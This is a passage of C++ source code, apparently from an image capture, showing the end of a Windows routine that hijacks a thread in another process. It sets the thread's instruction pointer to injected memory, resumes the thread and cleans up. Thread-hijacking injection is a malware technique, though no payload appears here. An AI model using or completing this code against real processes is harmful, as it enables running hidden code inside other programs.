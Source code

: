 ```c++
        return -1;
    }
 
    ctx.Eip=(DWORD)mem;
 
    printf("\nHijacking target thread.\n");
 
    if(!SetThreadContext(hThread,&ctx))
    {
        printf("\nError: Unable to hijack target thread (%d)\n",GetLastError());
 
        VirtualFreeEx(hProcess,mem,0,MEM_RELEASE);
        ResumeThread(hThread);
 
        CloseHandle(hThread);
        CloseHandle(hProcess);
 
        VirtualFree(buffer,0,MEM_RELEASE);
        return -1;
    }
 
    printf("\nResuming target thread.\n");
 
    ResumeThread(hThread);
 
    CloseHandle(hThread);
    CloseHandle(hProcess);
 
    VirtualFree(buffer,0,MEM_RELEASE);
    return 0;
}
```

